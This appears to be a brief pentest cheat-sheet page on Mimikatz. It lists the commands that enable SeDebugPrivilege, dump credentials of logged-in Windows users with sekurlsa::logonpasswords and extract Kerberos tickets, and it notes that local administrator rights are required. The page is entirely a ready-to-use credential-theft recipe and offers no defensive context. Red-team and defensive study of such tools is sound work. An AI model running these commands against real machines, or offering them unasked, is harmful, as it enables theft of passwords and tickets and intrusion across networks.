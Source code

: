 # Mimikatz

{% hint style="danger" %}
need to be a  local administrator
{% endhint %}

### Start mimikatz:

```powershell
.\mimikatz.exe
```

Enable SeDebugPrivilege:

```powershell
privilege::debug
```

### Dump hashes for logged in users

```powershell
sekurlsa::logonpasswords
```

### Extract kerberos tickets

```powershell
sekurlsa::tickets
```

